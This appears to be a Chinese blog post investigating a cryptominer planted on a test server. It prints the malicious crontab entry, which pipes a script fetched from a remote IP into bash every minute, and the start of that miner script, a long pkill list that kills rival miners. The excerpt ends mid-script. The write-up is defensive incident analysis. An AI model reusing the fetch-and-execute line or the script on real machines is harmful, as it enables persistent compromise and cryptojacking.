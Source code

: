 
####开发测试服务器被植入挖矿程序排查

- 今天需要在测试服务器上添加一个定时任务，当 crontab -e 一看，卧槽,这是要坏事啊，最近挖矿比较火，第一反应是莫非被挖矿了？

		* * * * * curl -s http://192.99.142.235:8220/logo3.jpg | bash -s 
		
- **第一 备份重要数据**

- 看看这是个什么情况：通过上面的连接找到如下脚本

		#!/bin/sh
		pkill -9 142.4.124.164
		pkill -9 192.99.56.117
		pkill -9 jva
		pkill -f ./atd
		pkill -f /tmp/wa/httpd.conf
		pkill -f 108.61.186.224
		pkill -f 128.199.86.57
		pkill -f 67.231.243.10
		pkill -f 142.4.124.164
		pkill -f 192.99.56.117
		pkill -f 45.76.102.45
		pkill -f AnXqV.yam
		pkill -f BI5zj
		pkill -f Carbon
		pkill -f Duck.sh
		pkill -f Guard.sh
		pkill -f JnKihGjn
		pkill -f KGlJwfWDbCPnvwEJupeivI1FXsSptuyh
		pkill -f NXLAi
		pkill -f XJnRj
		pkill -f 158.69.133.17
		pkill -f accounts-daemon
		pkill -f askdljlqw
		pkill -f atd
		pkill -f bonn.sh
		pkill -f bonns
		pkill -f carbon
		pkill -f conn.sh
		pkill -f conns
		pkill -f crypto-pool
		pkill -f ddg
		pkill -f donns
		pkill -f gekoCrw
		pkill -f gekoCrw32
		pkill -f gekoba2anc1
		pkill -f gekoba5xnc1
		pkill -f gekobalanc1
		pkill -f gekobalance
		pkill -f gekobalanq1
		pkill -f gekobnc1
		pkill -f ir29xc1
		pkill -f irpbalanc1
		pkill -f jIuc2ggfCAvYmluL2Jhc2gi
		pkill -f jaav
		pkill -f jva
		pkill -f kw.sh
		pkill -f kworker34
		pkill -f kxjd
		pkill -f lexarbalanc1
		pkill -f lower.sh
		pkill -f lowerv2.sh
		pkill -f lowerv3.sh
		pkill -f minerd
		pkill -f minergate